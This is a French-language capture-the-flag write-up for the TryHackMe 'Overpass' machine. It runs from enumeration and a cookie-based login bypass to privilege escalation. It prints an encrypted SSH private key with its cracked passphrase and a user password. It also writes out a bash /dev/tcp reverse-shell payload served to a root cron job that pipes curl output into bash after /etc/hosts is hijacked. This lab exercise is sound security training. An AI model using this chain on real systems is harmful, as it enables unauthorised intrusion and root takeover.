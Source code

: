 #TryHackMe #linux 
# Scan Nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37968598d1009c1463d9b03475b1f957 (RSA)
|   256 5375fac065daddb1e8dd40b8f6823924 (ECDSA)
|_  256 1c4ada1f36546da6c61700272e67759c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 0D4315E5A0B066CEFD5B216C8362564B
|_http-title: Overpass

# Gobuster Enum
 ===============================================================
	/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
	/admin                (Status: 301) [Size: 42] [--> /admin/]
	/css                  (Status: 301) [Size: 0] [--> css/]
	/downloads            (Status: 301) [Size: 0] [--> downloads/]
	/img                  (Status: 301) [Size: 0] [--> img/]
	/index.html           (Status: 301) [Size: 0] [--> ./]
===============================================

# Find
## Potential usernames on aboutus page
Ninja
Pars
Szymex
Bee
MuirlandOracle
## login.js

 else {
    Cookies.set("SessionToken",statusOrCookie)
    window.location = "/admin"
    }
# Ajouter Cookie 
name=SessionToken 
value = 0

# Clé SSH obtenu
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----

# Admin name = james

# Exploitation 
Crack ssh key
#crackPass
parphrase = james13
Connection ssh to james

# FootHold
## Find
file : .overpass (contient le mot de passe crypté en rot47 de james)
james password = saydrawnlyingpicture
Transfer linpeas to remote server by wget and create a python server

james@overpass-prod:~$ cat todo.txt 
	To Do:
> 	Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> 	Write down my password somewhere on a sticky note so that I don't forget it.
	  Wait, we make a password manager. Why don't I just use that?
> 	Test Overpass for macOS, it builds fine but I'm not sure it actually works
> 	Ask Paradox how he got the automated build script working and where the builds go.
	  They're not updating on the website

L'avant dernière ligne nous informe qu'il y a un script qui s'exécute automatiquement.
Les scripts qui sont lancés automatiquement par intervale de temps sont enrégistrés dans le repertoire /etc/crontab.
Vérifions : 
james@overpass-prod:~$ cat /etc/crontab
	.....SIP......
	# Update builds from latest code
	* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash

On constate que le derniner commentaire indique que la ligne en desous effectue une mise à jour automatique de OverPass toutes les minutes. Très interessant !
En examinant la ligne de code on constate que l'utilisateur `root` récupère et exécute le fichier `buildscript.sh` sur un serveur distant dont l'adresse est `overpass.thm`. Très interessant !
Ici l'idéale est de pouvoir modifier l'adresse ip atribuée au serveur par notre adresse local pour ainsi obtenir un revershell.

## On vérifie si on a le droit d'écriture sur des fichiers
On envoie et on lance de linpeas.sh sur la cible.
On constate qu'on a le droit d'écriture sur `/etc/hosts`    (**Bingo !**)
On pourais aussi vérifier cela en vérifiant juste les droits sur /etc/hosts avec la commande **ls -l /etc/hosts**
On modifie comme prévu.
Apartir de là on peut obtenir un revershell

# PrivEsc
## Création du fichier buildscript.sh pour le revershell sur attackbox
┌──(root㉿kali)-[/home/kali/Desktop/THM/OverPass]
└─# mkdir downloads  
┌──(root㉿kali)-[/home/kali/Desktop/THM/OverPass]
└─# mkdir downloads/src
┌──(root㉿kali)-[/home/kali/Desktop/THM/OverPass]
└─# touch downloads/src/buildscript.sh
┌──(root㉿kali)-[/home/kali/Desktop/THM/OverPass]
└─# echo "bash -c 'bash -i >& /dev/tcp/@iplocal/12345 0>&1'"  > downloads/src/buildscript.sh

## Création du serveur python
┌──(root㉿kali)-[/home/kali/Desktop/THM/OverPass]
└─# python3 -m http.server 80 
## Ecoute du port 12345
┌──(root㉿kali)-[~]
└─# nc -lvnp 1234
listening on [any] 1234 ...

# ReverShell obtenu Machine rooter
┌──(root㉿kali)-[~]
└─# nc -lvnp 12345
listening on [any] 12345 ...
connect to [@iplocal] from (UNKNOWN) [10.10.188.40] 36762
bash: cannot set terminal process group (16977): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~#


